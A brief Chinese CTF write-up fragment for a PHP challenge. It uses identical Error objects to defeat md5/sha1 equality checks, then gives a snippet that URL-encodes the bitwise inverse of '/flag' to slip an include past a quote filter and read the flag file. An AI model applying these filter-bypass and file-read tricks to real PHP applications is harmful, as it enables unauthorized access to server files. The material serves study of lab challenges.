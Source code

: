![image-20210226130255537](极客大挑战/image-20210226130255537.png)

因为

```
(md5($this->syc) === md5($this->lover)) && (sha1($this->syc)=== sha1($this->lover)
```

在同一行,所以他们的报错信息是相同的,

```
Error: payload in /usercode/file.php:2
Stack trace:
#0 {main}

Error: payload in /usercode/file.php:2
Stack trace:
#0 {main}
```

即可以绕过md5和sha1函数

然后我们不能使用 括号,无法调用函数,所以可以尝试直接使用include "/flag" ，因为过滤了引号,我们使用url取反绕过，

```
<?php


$str="/flag";
$b=urlencode(~$str);

echo $b; //得到b为%D0%99%93%9E%98
```
